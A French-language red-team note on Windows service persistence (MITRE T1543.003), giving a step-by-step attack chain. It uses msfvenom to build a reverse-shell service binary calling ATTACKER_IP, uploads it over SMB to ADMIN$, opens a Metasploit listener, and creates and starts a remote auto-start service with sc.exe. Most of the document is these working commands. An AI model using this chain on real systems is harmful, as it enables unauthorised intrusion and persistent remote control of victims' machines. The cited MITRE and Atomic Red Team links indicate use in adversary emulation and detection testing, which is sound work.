 mLes pirates peuvent créer ou modifier des services Windows pour exécuter de manière répétée des charges malveillantes dans le cadre de la persistance. Au démarrage de Windows, des programmes ou applications appelés services exécutent des fonctions système en arrière-plan. (Citation : TechNet Services) Les informations de configuration des services Windows, notamment le chemin d'accès aux fichiers exécutables ou aux programmes/commandes de récupération, sont stockées dans le Registre Windows.

#### Example 
Creation d'un shell inverse

```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

Nous avons télécharger notre charge utile sur le partage ADMIN$

```bash
smbclient -c 'put myservice.exe' -U $name$ -W $domaine '//$partage$/admin$/' $password$
```

Une fois notre exécutable téléchargé, nous allons configurer un écouteur sur la machine de l'attaquant pour recevoir le reverse shell de `msfconsole`:

```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST $IP$; set LPORT 4444;exploit"
```

Et enfin, procédez à la création d'un nouveau service à distance en utilisant sc, en l'associant à notre binaire téléchargé

```PowerShell
C:\> sc.exe \\DossierPartage create service-3249 binPath= "%windir%\myservice.exe" start= auto 
C:\> sc.exe \\DossierPartage start service-3249
```

https://attack.mitre.org/techniques/T1543/003/
https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1543.003/T1543.003.md?plain=1